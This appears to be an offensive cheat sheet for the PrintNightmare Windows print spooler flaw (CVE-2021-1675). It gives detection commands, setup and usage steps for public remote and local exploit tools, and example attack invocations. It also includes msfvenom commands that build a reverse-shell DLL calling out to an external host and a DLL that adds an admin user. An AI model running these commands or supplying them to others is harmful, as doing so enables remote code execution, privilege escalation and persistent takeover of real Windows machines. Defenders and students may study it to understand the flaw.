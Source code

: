 # Vulnerability Detection (Remote)
When running:
```bash
rpcdump.py @<VICTIM_IP> | egrep 'MS-RPRN|MS-PAR'
```

*if the computer is vulnerable,* the output should be:
```
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

# RCE Version [Github](https://github.com/cube0x0/CVE-2021-1675)

## Installation
```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```
## Usage
```
usage: CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share

CVE-2021-1675 implementation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  share                 Path to DLL. Example '\\10.10.10.10\share\evil.dll'

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

connection:
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name
                        and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server
```
## Example
```bash
CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

## DLL payloads
### Reverse Shell
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=20.20.20.129 LPORT=9000 -f dll > rev.dll
```
### Adduser Payload
```
msfvenom -p windows/adduser USER=<USERNAME> PASS=<PASSWORD_MATCHING_COPLEXITY> -f dll > adduser.dll
```

---

# Vulnerability Detection (Local)
When runnnig:
```shell
REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"
```
*if the computer is vulnerable,* the output should be:
```
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
    RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    NoWarningNoElevationOnInstall    REG_DWORD    0x1
```

*Also,* the print spooler service should running
```shell
gsv spooler
```

# LPE Version [Github](https://github.com/calebstewart/CVE-2021-1675)
## Usage (Creating Local Admin)
```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DriverName "<ANY_NAME>" -NewUser "<USERNAME>" -NewPassword "<PASSWORD_MATCHING_COPLEXITY>"
```
## Usage (Custom DLL)
```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "<FULL\PATH\TO\DLL>"
```